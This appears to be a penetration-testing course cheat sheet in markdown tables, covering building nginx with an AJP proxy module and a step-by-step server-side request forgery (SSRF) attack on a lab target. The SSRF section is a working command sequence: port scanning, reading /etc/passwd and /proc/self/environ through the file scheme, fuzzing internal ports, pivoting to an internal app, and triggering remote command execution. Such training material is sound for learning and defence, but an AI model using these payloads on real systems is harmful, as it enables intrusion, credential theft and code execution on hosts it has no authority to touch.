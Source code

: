## Nginx Reverse Proxy & AJP

| **Command**   | **Description**   |
| --------------|-------------------|
| `wget https://nginx.org/download/nginx-1.21.3.tar.gz` | Downloading nginx |
| `tar -xzvf nginx-1.21.3.tar.gz` | Extracting nginx tar file | 
| `git clone https://github.com/dvershinin/nginx_ajp_module.git` | Cloning nginx_ajp source code |
| `cd nginx-1.21.3` | Navigating to nginx directory |
| `./configure --add-module=$(pwd)/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules` | Setting up the configuration for building and installing Nginx web server |
| `make` | GNU make utility to maintain groups of programs |
| `sudo make install` | Instructing the make command to execute the installation target defined in the make file |
| `sudo nginx` | Starting the nginx server |


## SSRF Exploitation Example

| **Command**   | **Description**   |
| --------------|-------------------|
| `nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238` | Scanning the ports of the external target |
| `curl -i -s -L http://<TARGET IP>` | Interacting with the target and following redirects| 
| `nc -lvnp 8080` | Starting a netcat listener to test for SSRF |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"` | Testing for SSRF vulnerability |
| `python3 -m http.server 9090` | Starting the python web server |
| `sudo pip3 install twisted` | Installing the ftp server |
| `sudo python3 -m twisted ftp -p 21 -r .` | Starting the ftp server |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`| Retrieving a remote file through the target application (HTTP Schema) |
| `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"` | Retrieving a local file through the target application (File Schema) |
| `for port in {1..65535};do echo $port >> ports.txt;done`|  Generating a wordlist of possible ports |
| `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30` | Fuzzing for ports on the internal interface |
| `curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"` | Interacting with the internal interface on the discovered port| 
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"` | Interacting with the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"` | Discovering web application listening in on localhost |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"` | Modifying the URL to bypass the error message |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -` | Requesting to disclose the /proc/self/environ file on the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"` |  Retrieving a local file through the target application  |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"` | Confirming remote code exeuction on the remote host |
| `sudo apt-get install jq` | Installing jq| 
| `https://highon.coffee/blog/ssrf-cheat-sheet/`| Useful link|
